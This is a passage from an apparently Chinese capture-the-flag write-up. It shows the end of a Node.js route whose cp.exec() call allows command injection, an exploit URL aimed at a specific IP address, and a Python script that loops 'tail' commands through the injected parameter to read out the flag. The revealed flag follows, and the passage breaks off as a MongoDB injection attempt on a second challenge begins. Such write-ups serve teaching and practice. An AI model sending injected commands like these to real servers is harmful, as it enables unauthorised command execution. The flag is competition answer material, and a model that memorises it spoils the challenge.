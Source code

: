     res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
  }

});

function secure (str) {
  return str.replace(/[^\d\-a-zA-Z ]/g, '');
}

module.exports = router;
  
{% endhighlight %}  

可以发现这里有个很明显的命令执行：

{% highlight javascript %}

cp.exec()

{% endhighlight %}
	
可直接cat数据：
	
	http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci=cat
	
但是程序默认只返回命令执行结果的5行，因此写个程序来循环读取flag（通过测试flag有143行）：

{% highlight python %}

#!/usr/bin/env python
# coding: utf-8

import requests

outfile = open('flag.txt', 'w')
r_url = 'http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci='
n = 143
r = n / 5 + 1
for i in range(r):
    response = requests.get(r_url + 'tail -n %s' % str(n))
    #print r_url + 'tail -n %s' % str(n)
    m = response.content
    outfile.write(m + '\n')
    n -= 5

{% endhighlight %}
	    
flag：``hctf{Ar3_you_an_op3nsourc3_1ov3r?}``

##Lock（300pt）

题目是个登陆框，且注释里有tips：

	<!-- wtf!! The key is the same as lock !! Can someone help to find the right lock ?!!!-->
	
随即登陆，得到返回信息：

	It seeeeeeemed the lock is not right!!!(╯°□°）╯︵ ┻━┻

后排出普通sql注入，发现服务器上有开放27017（mongodb端口），因此开始mongodb注入尝试，通过post数据：
